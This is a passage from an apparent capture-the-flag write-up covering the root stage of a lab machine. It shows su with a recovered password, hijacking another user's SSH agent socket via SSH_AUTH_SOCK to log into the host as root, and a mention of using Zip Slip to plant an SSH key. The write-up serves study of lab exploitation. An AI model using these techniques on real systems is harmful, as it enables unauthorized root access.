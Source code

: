 ### Root access through SSH agent hijack

The new found password works to get root access on the `kaneki-pc` container:

```
kaneki_pub@kaneki-pc:~$ su -l root
Password:
root@kaneki-pc:~# id
uid=0(root) gid=0(root) groups=0(root)
root@kaneki-pc:~# ls
root.txt
root@kaneki-pc:~# cat root.txt
You've done well to come upto here human. But what you seek doesn't lie here. The journey isn't over yet.....
```

As expected, I don't have access to the real `root.txt` flag on this one.

Earlier I found that a user connects remotely then back using root's account on the host. I can just wait until the next time it connects then hijack its ssh agent socket:

```
root@kaneki-pc:/tmp# ls -l
total 20
drwx------ 1 root       root       4096 Dec 16 07:36 ssh-1Oo5P5JuouKm
drwx------ 1 kaneki_adm kaneki_adm 4096 Dec 16 07:36 ssh-FWSgs7xBNwzU
drwx------ 2 kaneki_adm kaneki_adm 4096 May  8 02:00 ssh-Y2CJdynAyJ
drwx------ 1 kaneki_pub kaneki     4096 Dec 16 07:36 ssh-jDhFSu7EeAnz
-rw------- 1 root       root        400 May  8 01:16 sshd-stderr---supervisor-b_s4zO.log
-rw------- 1 root       root          0 May  8 01:16 sshd-stdout---supervisor-rrVo6W.log

root@kaneki-pc:/tmp# cd ssh-Y2CJdynAyJ
root@kaneki-pc:/tmp/ssh-Y2CJdynAyJ# ls -l
total 0
srwxr-xr-x 1 kaneki_adm kaneki_adm 0 May  8 02:00 agent.216
root@kaneki-pc:/tmp/ssh-Y2CJdynAyJ# export SSH_AUTH_SOCK=agent.216

root@kaneki-pc:/tmp/ssh-Y2CJdynAyJ# ssh -p 2222 172.18.0.1
Welcome to Ubuntu 18.04.1 LTS (GNU/Linux 4.15.0-45-generic x86_64)

[...]

Last login: Tue May  7 19:00:02 2019 from 172.18.0.200
root@Aogiri:~# id
uid=0(root) gid=0(root) groups=0(root)
root@Aogiri:~# ls
log.sh  root.txt
root@Aogiri:~# cat root.txt
7c0f11...
```

### Unintended way to root on Aogiri container

Instead of using the SSH keys found in the backups directory I can use the Zip Slip vulnerability to upload my own SSH publicy key to the root directory's SSH folder.
